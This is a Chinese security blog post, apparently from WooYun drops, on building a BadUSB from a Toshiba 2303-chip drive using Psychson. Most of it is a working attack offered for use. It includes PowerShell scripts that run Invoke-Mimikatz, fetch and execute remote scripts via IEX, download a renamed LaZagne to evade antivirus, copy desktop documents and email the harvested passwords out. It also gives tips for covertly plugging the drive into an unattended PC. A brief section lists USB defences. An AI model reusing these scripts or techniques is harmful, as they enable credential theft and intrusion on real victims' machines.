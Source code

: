 # BadUsb----结合实例谈此类外设的风险

0x00 前言
=======

* * *

大概是从今年年初的时候关注了这一块的话题，3月份买的TOSHIBA的U盘进行的测试，期间一直在完善利用代码，期间收到了一些大牛的启发，感谢Psychson这个项目的开源，DM_在PowerShell方面的文章，以及参考过三好学生，jeary等人的配置，虽然并没有交流，但是读了他们的帖子后实践完善了整个利用过程。这是[BadUsb](https://github.com/adamcaudill/Psychson)的GitHub地址,以及原作者的操作视频（YouTube俄语翻译真心栏...自备梯子）

我在某乙方工作，一次去某省级运营商渗透前的交流时，因为来的早会议室还没有腾出来，在安全室休息时，我所坐的位置的人电脑没有锁屏，但是旁边都是安全室的人，这时候我拿出我的BadUsb，默默的去桌子底下系起了鞋带...

0x01 BadUsb制作
=============

* * *

*   首先你需要有一枚2303芯片的U盘，推荐平价的[东芝（TOSHIBA） 速闪系列 U盘 16GB （黑色） USB3.0](http://item.jd.com/929732.html)
*   Psychson项目文件
*   JRE
*   Burner File（BN03V104M.BIN只保证东芝这个U盘可以用）
*   SDCC

[打包下载](http://pan.baidu.com/s/1bniCcEV)，密码: ixgw，包括量产工具，不包含JRE，win7_X64环境的编译好了可以直接用，项目文件夹下有command.txt可以参考，如果你是别的系统版本，请使用vs2012重新编译工具。

**PS：建议就刷我的final.txt修改脚本地址即可，这样不会存在需要重新刷短接芯片的情况，所有操作只需要修改服务器端的脚本即可。如果你已经刷坏，请先在不插电脑时短接住芯片上圆点斜对面的最外两个针脚，然后启动MPALL_F2_v363_0D.exe，用QC.ini，插到usb2.0口，Update几次没有的话说明你短接手法不好，ok了点start刷一下就恢复U盘了，再重头来**

0x02 BadUsb效果
=============

* * *

目前的效果是只需要5秒钟之内，可过某pc装机量5亿的杀软，电脑闪一下屏幕就可以拔下U盘了，剩下的交给后台的PowerShell进程，实现的功能有获取电脑的基本信息，Invoke-mimikatz抓密码，桌面截屏，集成[LaZagne](https://github.com/AlessandroZ/LaZagne)获取系统存储的密码，递归获取桌面所有txt doc类 xls类文件，最终打成压缩包，可通过邮箱或者ftp发送，实战中建议使用ftp发送**ps:因为有人桌面的文档打包出来近GB...**

看我拿本机测试能得到什么

视频密码 HappyTime

![badusb1](http://drops.javaweb.org/uploads/images/1a89902ae6c56b431883ffda8666420fabc41f74.jpg)

![badusb2](http://drops.javaweb.org/uploads/images/4af71ed00dff775e895344f63919756c4ffa5f3b.jpg)

![tree](http://drops.javaweb.org/uploads/images/71c8e0b8322f9d6b35020c53e431081d4894fe2d.jpg)

![doc](http://drops.javaweb.org/uploads/images/319f5fe43d5a7fcb9a9ef46a72e471dea4ef526b.jpg)

![screen](http://drops.javaweb.org/uploads/images/b2e9ca0d104c5e16138cd59beafb5a5d44ffbef0.jpg)

![info](http://drops.javaweb.org/uploads/images/47a4e822f3c85bd609512066beddc2f88d2a0d64.jpg)

![Pass1](http://drops.javaweb.org/uploads/images/a6e03e73fad72a9bba40f87b539e04d270e87ba5.jpg)

![Pass2](http://drops.javaweb.org/uploads/images/e69531d71a49ce895a50979e5ee226a1b18acf93.jpg)

0x03 BadUsb实战
=============

* * *

基本上从视频来看 算上装驱动大概需要10秒时间，实际执行Payload大概是5秒，所以只需要给你5秒，5秒你到底能做到什么?

**友情提醒**

1.  系鞋带动作要自然
2.  速度要快
3.  有小伙伴掩护那是再好不过的

看看我们能得到什么

![doc2](http://drops.javaweb.org/uploads/images/a571f67361b752d8dbb7e683a9f83f5ea416ba84.jpg)

![secret](http://drops.javaweb.org/uploads/images/31e7f4d3246bccd5076e98deee0cfd49b7406517.jpg)

这个数据量有多恐怖，这只是一个安全室普通员工电脑桌面的信息，在后来对这些信息详细分析后发现了堡垒机跳板机的登录密码，以及堡垒机最高权限的账户，至此，该省所有设备都在控制之中，包括短彩信，智能网，长途网，话务网，以及基础设施，都收入囊中。

![login](http://drops.javaweb.org/uploads/images/2e1a33bf01a0afa09c2f4b7dd1af8f06c78e4312.jpg)

![som](http://drops.javaweb.org/uploads/images/c97b759bef43a42963c984c7597672b6236c740c.jpg)

![som2](http://drops.javaweb.org/uploads/images/7d93eab7f58100427e0c594fc6eb80916b7ec6bb.jpg)

![email](http://drops.javaweb.org/uploads/images/7c48792747446239598dd3253213af1d32237895.jpg)

抱歉因为客户原因，无法透露过多细节，读者可当是概念证明，毕竟威胁真实存在。

0x04 BadUsb-Exp
===============

* * *

再次感谢Invoke-Mimikatz作者，感谢DM_，代码为拼接修改而来，照惯例留坑，防伸手党，勿怪 首先，仅通过BadUsb下载一个powershell脚本，其中在调用IEX继续下载新的PowerShell，这样设计是为了先拿到一份LaZagne获取的密码，因为有些人的桌面文档表格太大了，需要等待很久，避免夜长梦多所为。

```
...
...#Invoke-Mimikatz
$folderDateTime = (get-date).ToString('d-M-y HHmmss')
$userDir = (Get-ChildItem env:\userprofile).value + '\Report ' + $folderDateTime
$fileSaveDir = New-Item  ($userDir) -ItemType Directory
Invoke-Mimikatz -Dumpcreds >> $fileSaveDir'/DumpPass.txt'
$copyDir = (Get-ChildItem env:\userprofile).value + '\Desktop'
$copyToDir = New-Item $fileSaveDir'\Doc' -ItemType Directory
Dir -filter *.txt -recurse $copyDir | ForEach-Object {Copy-Item $_.FullName $copyToDir}
Dir -filter *.doc -recurse $copyDir | ForEach-Object {Copy-Item $_.FullName $copyToDir}
Dir -filter *.docx -recurse $copyDir | ForEach-Object {Copy-Item $_.FullName $copyToDir}
Dir -filter *.xls -recurse $copyDir | ForEach-Object {Copy-Item $_.FullName $copyToDir}
Dir -filter *.xlsx -recurse $copyDir | ForEach-Object {Copy-Item $_.FullName $copyToDir}
IEX (New-Object Net.WebClient).DownloadString('http://xxx.xxx.xxx/GetPass.ps1');

```

GetPass.ps1

```
(new-object System.Net.WebClient).DownloadFile('http://x.x.x.x/GetPass.rar','D:\Get.exe');
(new-object System.Net.WebClient).DownloadFile('http://x.x.x.x/Command.rar','D:\Command.bat');
D:\Command.bat;
$SMTPServer = 'smtp.qq.com'
$SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
$SMTPInfo.EnableSsl = $true
$SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('username', 'password');
$ReportEmail = New-Object System.Net.Mail.MailMessage
$ReportEmail.From = 'email-address'
$ReportEmail.To.Add('To-address')
$ReportEmail.Subject = 'GetPass'
$ReportEmail.Body = 'Passwords In Applications' 
$ReportEmail.Attachments.Add('D:\GetPass.txt')
$SMTPInfo.Send($ReportEmail)
remove-item 'D:\GetPass.txt'
remove-item 'D:\Get.exe'

```

其中的GetPass.rar实为LaZagne，直接下载exe会被大部分杀软拦截，所以使用重命名功能，之所以调用了一个批处理，是因为LaZagne的获取Windows密码模块（非sysadmin模块）注入Lsass进程是会被杀软拦截，所以(D:\Get.exe sysadmin & D:\Get.exe svn & D:\Get.exe database & D:\Get.exe browsers & D:\Get.exe wifi & D:\Get.exe mails) > D:\GetPass.txt 笨方法绕过杀软。

好现在是揭晓坑的时候了- -，破坏了这个脚本删除生成文件的地方~你们插完别人的电脑，这些临时文件就会一直在那里躺着~包括这些密码压缩包喔~

0x05 Sec-Usb？
=============

* * *

既然明白了风险存在，如何防护呢？

Know it，then protect it.

首先看一种暴力的[德国LINDY USB电脑锁 电子信息资料防护加密防盗防窃取](https://item.taobao.com/item.htm?spm=a230r.1.14.11.kKxDoZ&id=35528606576&ns=1&abbucket=19#detail)直接锁死u口，可能适合跳板机，开发机使用，但是个人机器不现实。

再有就是类似sec-usb这种充电线了，断掉usb传输的两个data线，只保留power,这样就只能充电了，某厂商有这种商品，很贵呦~

链接: http://pan.baidu.com/s/1c09E7PQ 密码: 9b6p

0xFF 版权声明
=========

* * *

本文独家首发于乌云知识库(drops.wooyun.org)。本文并没有对任何单位和个人授权转载。如本文被转载，一定是属于未经授权转载，属于严重的侵犯知识产权，本单位将追究法律责任。